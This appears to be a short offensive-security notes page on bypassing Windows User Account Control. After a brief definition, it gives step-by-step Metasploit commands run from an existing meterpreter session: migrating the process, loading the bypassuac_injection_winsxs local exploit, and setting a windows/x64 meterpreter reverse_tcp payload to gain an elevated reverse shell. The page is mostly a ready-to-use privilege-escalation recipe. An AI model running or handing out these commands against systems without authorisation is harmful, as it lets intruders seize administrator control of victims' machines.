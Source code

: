 --- ---

<h2>What is Bypassing UAC</h2>

Bypassing User access Control – Adversaries may bypass UAC mechanisms to elevate process privileges on the system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation. 

---

<h2>Commands</h2>

- Take note that to follow those step, you must have a meterpreter session all ready open with the targeted machine

```
# Make sure you have migrate your process ID to a more stable process
# More information on migration 
ps                       ---> Show all the process id
migrate 1234             ---> Migrate the session

# Use Exploit
search bypassuac
use exploit/windows/local/bypassuac_injection_winsxs   ---> or any other bypassuac

# Set Payload
set payload windows/x64/meterpreter/reverse_tcp
show options
Set options              ---> Set the options
set target windows x64
set session X
run
```

More information ---> [[2 - Meterpreter]]